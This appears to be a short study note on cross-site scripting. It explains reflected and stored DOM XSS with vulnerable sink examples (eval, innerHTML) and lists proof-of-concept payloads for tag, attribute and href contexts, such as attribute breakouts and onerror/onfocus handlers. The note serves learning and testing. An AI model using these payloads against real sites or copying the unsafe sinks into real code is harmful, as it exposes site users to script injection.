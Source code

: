 ### <mark style="color:yellow;">Reflected/Stored DOM XSS</mark>

If a script reads data from a URL and writes it to a dangerous sink, the vulnerability is client-side with no server processing.

* **Reflected DOM** vulnerabilities happen when the server processes and echoes data from a request, and a script on the page handles this data unsafely, writing it to a dangerous sink.

```javascript
eval('var data = "reflected string"');
```

* In a **stored DOM XSS** vulnerability, the server stores data from one request and includes it in a later response. A script in the later response processes this data unsafely in a sink.

```javascript
element.innerHTML = comment.author
```

## <mark style="color:yellow;">XSS contexts</mark>

### <mark style="color:yellow;">Between HTML tags</mark>

```html
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```

{% hint style="info" %}
**Note**: understand how a payload works

* `<body onresize="print()">` with this payload (for reflected XSS) you need an exploit server and iframe tag
{% endhint %}

### <mark style="color:yellow;">In HTML tag attributes</mark>

* Terminate the attribute value, close the tag, and introduce a new one.

```html
"><script>alert(document.domain)</script>
```

* If angle brackets are blocked or encoded, introduce a new attribute that creates a scriptable context.

```html
" autofocus onfocus=alert(document.domain) x="
```

* If XSS context is into the href attribute of an anchor tag, use the javascript pseudo-protocol to execute script

```html
<a href="javascript:alert(document.domain)">
```
